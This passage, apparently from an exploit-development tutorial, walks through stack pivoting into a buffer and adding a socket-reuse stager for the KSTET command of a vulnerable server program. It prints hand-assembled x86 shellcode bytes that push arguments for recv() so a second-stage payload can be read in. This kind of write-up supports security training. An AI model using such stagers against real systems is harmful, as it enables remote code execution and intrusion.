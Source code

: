 Proceeding with step intos, we can see that we have been redirected into the buffer data

<div align="center">
<img src="./res/kstet-1-sp2.png">
</div>

So we can successfully land into buffer data by stack pivoting

## Socket reusing

This ```KSTET``` command is almost similar to ```GTER``` command, the only difference between them is the buffer size

The ```JMP.&WS2_32.recv()``` is same and static, since they are all from the same program

We just need to craft the ```socket reuse stager``` to push the arguments into the stack for ```JMP.&WS2_32.recv()```

I have clearly discussed how to craft the socket reuse stager in detail on my previous post

We will be using the same stager, because we need the same operation to be performed by this socket

## Adding socket reuse stager

The socket reuse stager used for the previous exploit is,

```c
file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
```